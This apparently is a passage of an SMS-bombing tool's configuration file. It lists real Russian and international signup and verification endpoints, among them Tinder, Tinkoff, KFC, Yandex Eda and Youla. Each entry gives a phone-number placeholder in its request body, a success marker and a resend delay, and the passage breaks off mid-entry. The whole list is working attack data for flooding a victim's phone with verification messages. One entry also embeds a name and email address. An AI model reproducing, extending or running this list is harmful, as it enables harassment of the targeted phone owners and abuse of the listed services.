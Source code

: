 smsServices:# ----------------# TEST "SERVICE"# - url: 'https://httpbin.org/post'# method: 'POST'# headers:# Content-Type: 'application/json'# body: '{"phone_number":"<num>"}'# okRes: 'origin'# delay: 5# ---------------- - url: 'https://apteka366.ru/login/register/sms/send' method: 'POST' body: 'phone=<num2>' okRes: '{"phone":"' delay: 121 - url: 'https://belkacar.ru/get-confirmation-code' method: 'POST' body: 'phone=<num>' okRes: 'success":true' delay: 61 - url: 'https://drugvokrug.ru/siteActions/processSms.htm' method: 'POST' body: 'cell=<num>' okRes: 'success":true' delay: 7 - url: 'https://api.ennergiia.com/auth/api/development/lor' method: 'POST' headers: Content-Type: 'application/json' body: '{"referrer":"ennergiia","via_sms":true,"phone":"+<num4>"}' okRes: '"code":"200-8"' delay: 121 - url: 'https://fundayshop.com/ru/ru/secured/myaccount/myclubcard/resultClubCard.jsp?type=sendConfirmCode&phoneNumber=+<num13>' method: 'GET' okRes: 'result":"sendConfirmCode' delay: 50 - url: 'https://gorzdrav.org/login/register/sms/send' method: 'POST' body: 'phone=<num2>' okRes: 'phone' delay: 121 - url: 'https://p.grabtaxi.com/api/passenger/v2/profiles/register' method: 'POST' body: 'phoneNumber=<num>&countryCode=ID&name=Alexey&email=alexey173949%40gmail.com&deviceToken=*' okRes: 'phoneNumber' delay: 2 - url: 'https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms' method: 'POST' body: '{"phone":"+<num>"}' okRes: 'success":true' delay: 6 - url: 'https://www.mvideo.ru/internal-rest-api/common/atg/rest/actors/VerificationActor/getCode?pageName=registerPrivateUserPhoneVerification' method: 'POST' body: 'phone=<num>&g-recaptcha-response=&recaptcha=off' okRes: '"success": true' delay: 61 - url: 'https://api.gotinder.com/v2/auth/sms/send?auth_type=sms&locale=ru' method: 'POST' headers: Content-Type: 'application/json' body: '{"phone_number":"<num>"}' okRes: 'sms_sent":true' delay: 21 - url: 'https://api.tinkoff.ru/v1/sign_up' method: 'POST' body: 'phone=%2B<num>' okRes: '"resultCode":"WAITING_CONFIRMATION"' delay: 21 - url: 'https://api-production.viasat.ru/api/v1/auth_codes' method: 'POST' headers: Content-Type: 'application/json' body: '{"msisdn":"+<num>"}' okRes: '' delay: 61 - url: 'https://eda.yandex/api/v1/user/request_authentication_code' method: 'POST' headers: Content-Type: 'application/json' body: '{"phone_number":"<num2>"}' okRes: '"delay"' delay: 61 - url: 'https://youla.ru/web-api/auth/request_code' method: 'POST' body: 'phone=<num>' okRes: '"phone"' delay: 16 - url: 
